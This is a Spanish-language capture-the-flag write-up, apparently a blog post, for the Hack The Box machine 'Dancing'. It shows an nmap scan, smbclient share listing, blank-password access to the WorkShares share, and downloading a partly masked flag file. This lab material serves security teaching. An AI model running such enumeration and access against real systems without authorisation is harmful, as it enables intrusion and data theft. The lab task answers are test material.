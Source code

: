```yaml
---
title: HackThebox - Dancing
date: 2023-05-14
categories: [Hackthebox, HTB-VeryEasy]
tags: [Starting Point, Windows]
image:
  path: ../../assets/img/post/dancing/dancing.png
  width: 800
  height: 500
  alt: Banner dancing
---
```


Vamos a estar completando la tercera maquina del starting point.

En esta vamos a estar tocando el protocolo SMB (Server Message Block) es un protocolo cliente / servidor que gobierna el acceso a archivos y directorios completos, así como a otros recursos de red como impresoras, enrutadores o interfaces abiertas a la red.

## Task 1. What does the 3-letter acronym SMB stand for?

*¿Qué significa el acrónimo de 3 letras SMB?*

```text
Server Message Block
```

## Task 2. What port does SMB use to operate at?

*¿Qué puerto utiliza SMB para operar?*

```text 
445
```

SMB usa el puerto IP 139 o 445.

## Task 3. What is the service name for port 445 that came up in our Nmap scan?

*¿Cuál es el nombre del servicio para el puerto 445 que apareció en nuestro escaneo Nmap?*

Vamos a realizar un escaneo con nmap a la maquina victima:

```bash
nmap -sV -p- --min-rate 5000 10.129.146.249
```
```bash
❯ nmap -sV -p- --min-rate 5000 10.129.146.249
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-21 22:22 AST
Nmap scan report for 10.129.201.125 (10.129.201.125)
Host is up (0.85s latency).
Not shown: 63698 filtered tcp ports (no-response), 1834 closed tcp ports (conn-refused)
PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 121.47 seconds
```

Podemos ver en nuestro escaneo que el nombre del servicio para el puerto 445 es:
```text
microsoft-ds
```

## Task 4. What is the 'flag' or 'switch' we can use with the SMB tool to 'list' the contents of the share?

*¿Cuál es la 'bandera' o 'interruptor' que podemos usar con la herramienta SMB para 'listar' el contenido del recurso compartido?*
```text
-L
```

Vamos a Listar el contenido del recurso compartido de la maquina victima: 
```bash
smbclient -L 10.129.146.249
```
nos devuelve:
```bash
❯ smbclient -L 10.129.146.249
Password for [WORKGROUP\z3etxh]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	WorkShares      Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.146.249 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

## Task 5. How many shares are there on Dancing?

*¿Cuántos participaciones hay en Dancing?*

En el comando anterior pudimos listar el contenido mediante smbclient y miramos que son:
```text
4
```

## Task 6. What is the name of the share we are able to access in the end with a blank password?

*¿Cuál es el nombre del recurso compartido al que podemos acceder al final con una contraseña en blanco?*

Despues de haber intentado con cada uno de los recursos compartidos:
```text
WorkShares
```

Indicamos que queremos acceder al recurso compartido 'WorkShares' de la siguiente forma:

```bash 
smbclient \\\\10.129.146.249\\WorkShares
```

Nos va a pedir Password, pero como hablamos anterior mente, la contraseña es texto en blanco, asi que le damos un enter.

```bash
❯ smbclient \\\\10.129.146.249\\WorkShares
Password for [WORKGROUP\z3etxh]:
Try "help" to get a list of possible commands.
smb: \> ls
```

Despues que estemos dentro, nos basta con hacer un 'ls', para listar directorios de la maquina victima.

```bash
  .                                   D        0  Mon Mar 29 04:22:01 2021
  ..                                  D        0  Mon Mar 29 04:22:01 2021
  Amy.J                               D        0  Mon Mar 29 05:08:24 2021
  James.P                             D        0  Thu Jun  3 04:38:03 2021
```

Vemos 2 Usuarios, miramos el contenido de cada directorio, en este caso lo que buscamos esta en el directorio "James.P"

```bash
smb: \> cd James.p
smb: \James.p\> ls
  .                                   D        0  Thu Jun  3 04:38:03 2021
  ..                                  D        0  Thu Jun  3 04:38:03 2021
  flag.txt                            A       32  Mon Mar 29 05:26:57 2021
```

## Task 7. What is the command we can use within the SMB shell to download the files we find?

*¿Cuál es el comando que podemos usar dentro del shell SMB para descargar los archivos que encontramos?*

El comando es:
```text
get
```

Descargamos el archivo flag:

```bash 
get flag.txt 
```

ya deberiamos de encontrar el archivo en nuestra maquina.

## Submit root flag

```bash
❯ cat flag.txt
───────┬────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: flag.txt
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ 5f61c10dffbc77a704d76016a22f1**
───────┴────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```





